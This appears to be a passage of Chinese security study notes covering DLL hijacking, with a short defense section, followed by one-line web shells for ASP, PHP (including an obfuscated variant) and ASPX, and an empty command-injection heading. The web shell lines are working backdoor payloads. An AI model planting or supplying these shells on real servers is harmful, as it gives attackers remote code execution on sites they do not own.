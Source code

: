 
## 1.21、**Dll**劫持漏洞 

> 由于输入表中只包含DLL名而没有它的路径名，因此加载程序必须在磁盘上搜索 DLL 文件。首先会尝试从当前程序所在的目录加载DLL，如果没找到，则在Windows系统目录中查找，最后是在环境变量中列出的各个目录下查找。
>
> 
>
> 利用 这个特点，先伪造一个系统同名的DLL，提供同样的输出表，每个输出函数转向 真正的系统DLL。程序调用系统DLL时会先调用当前目录下伪造的 DLL，完成相关功能后，再 跳到系统DLL同名函数里执行。这个过程用个形象的词来描述，就是系统DLL被劫持 （hijack）了
>
> 
>
> 伪造的dll制作好后，放到程序当前目录下，这样当原程序调用原函数时就调 用了伪造的dll的同名函数
>
> ### 如何防御：
>
> DLL劫持利用系统未知DLL的搜索路径方式，使得程序加载当前目录下的系统同名DLL。
>
> 所以可以告诉系统DLL的位置，改变加载系统DLL的顺序不是当前目录，而是直接到系统目录下查找。



## 1.22、一句话木马 

> ### asp一句话木马：
>
>  <%execute(request("value"))%> 
>
> ### php一句话木马：
>
> <?php@eval($_POST[value]);?> 
>
> 变形：<?php$x=$_GET[‘z’];@eval(“$x;”);?> 
>
> ### aspx一句话木马： 
>
> <%@ PageLanguage="Jscript"%> 
>
> <%eval(Request.Item["value"])%> 



## 1.23、命令执行漏洞 

> ![image-20220519225441294](image-20220519225441294.png)
